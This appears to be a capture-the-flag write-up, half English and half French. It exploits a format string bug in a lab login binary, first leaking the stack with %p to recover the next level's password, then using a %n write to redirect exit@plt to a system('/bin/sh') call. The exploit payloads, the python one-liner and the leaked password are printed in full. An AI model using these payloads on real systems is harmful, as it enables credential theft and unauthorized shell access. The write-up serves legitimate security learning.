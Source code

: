 The provided executable expect a username and a password.

We decompiled it and we can see the program opening the level03 password.
Trying to run the program in gdb will lead to failure because gdb doesn't have the same user level access,
so we need to operate only through the standar input.

This program use the password from of the level03 user and expect to the user to provide it in order to be get a shell with the user level03 access.

So it appear quite secure.

However we can notice that the user name is printed through a printf call if it's the wrong password. We gone use the format string vulnerability.

## First way to do it:

This attack will print the raw memory of the buffers in order to get the read password.

```bash
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
--[ Password: *****************************************
0x7fffffffe4f0.(nil).0x25.0x2a2a2a2a2a2a2a2a.0x2a2a2a2a2a2a2a2a.0x7fffffffe6e8.0x1f7ff9a08.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x1002e7025.(nil).0x756e505234376848.0x45414a3561733951.0x377a7143574e6758.0x354a35686e475873.0x48336750664b394d.0xfeff00.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70. does not have access!
```

We can see our patern in the output where `70252e` correspond to `p%.`
We can ignore our pattern until the string end.
The data after our payload is the password read because the memory layout of the buffers start with the password buffer followed by the read_buffer.
We also know that the maximum number of character read is 41 so we can ignore what is after.

0x756e505234376848.0x45414a3561733951.0x377a7143574e6758.0x354a35686e475873.0x48336750664b394d.0xfeff00

Now we can reverse each hexadecimal chunk in order to get them back to big endian then convert it to ascii string.

```
48 75 6e 50 52 34 37 68 -> Hh74RPnu
51 45 41 4a 35 61 73 39 -> Q9sa5JAE
58 37 7a 71 43 57 4e 67 -> XgNWCqz7
73 35 4a 35 68 6e 47 58 -> sXGnh5J5
4d 48 33 67 50 66 4b 39 -> M9KfPg3H
```

The last three bytes are ignore because it correspond to the end of the string.
00 ff fe

So the password is:

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

## Deuxieme maniere d'y arriver:

On va utiliser printf pour ecrire dans une adresse de notre choix.
Dans notre cas , dans la fonction main on a un appel a `system "/bin/sh"`

```
0x400a85 <main+625>     mov    $0x400d32,%edi
0x400a8a <main+630>     callq  0x4006b0 <system@plt>
```

```
x/s 0x400d32
0x400d32:        "/bin/sh"
```

On notifie aussi un appel a exit plus bas dans le code

```
0x400ab1 <main+669>     mov    $0x1,%edi
0x400ab6 <main+674>     callq  0x400710 <exit@plt>
```

On va tenter de remplacer l'appel exit@plt a un appel a notre fonction main a l'adresse `0x400a85` soit en decimal 4196997

On disas exit@plt

```
disas exit
#0x601228
```

On remarque qu'en affichant les prochains octets de la stack on tombe rapidement sur le deuxieme buffer:

```
./level0
username: %x %x %x %x %x %x %x %x %x %x
password: AAAA
ffffe580 0 41 2a2a2a2a 2a2a2a2a ffffe778 f7ff9a08 41414141 0 0 0 0 0 0 does not have access!
```

Nous avons donc toutes les ressources necessaires pour rediriger l'execution du code vers la portion qui nous interesse:

```
(python -c 'print "%4196997c%8$n" + "\n" + "\x28\x12\x60"' ; cat) | ./level02
```

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
